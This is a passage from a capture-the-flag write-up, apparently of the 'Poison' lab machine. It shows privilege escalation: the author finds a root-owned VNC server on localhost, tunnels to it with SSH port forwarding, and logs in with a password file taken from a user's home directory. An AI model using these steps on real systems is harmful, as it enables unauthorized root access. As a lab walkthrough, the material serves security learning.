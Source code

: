 As we can see there is a XVNC process running as root on port 5801:
```
charix@Poison:~ % sockstat -l | grep Xvnc
root     Xvnc       529   0  stream /tmp/.X11-unix/X1
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
```
Since the port 5901 is only open for localhost, I had to forward the connection with ssh:
```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
This means that the traffic directed to my local port 5901 will be forwarded to the 5901 on the remote server.

At this point I had to connect with vncviewer using a file I found in the home directory of charix:
```
vncviewer 127.0.0.1:5901 -passwd secret
```
and I was root :)
<img src="/assets/poison/poison8.png" alt="drawing" width="600"/>

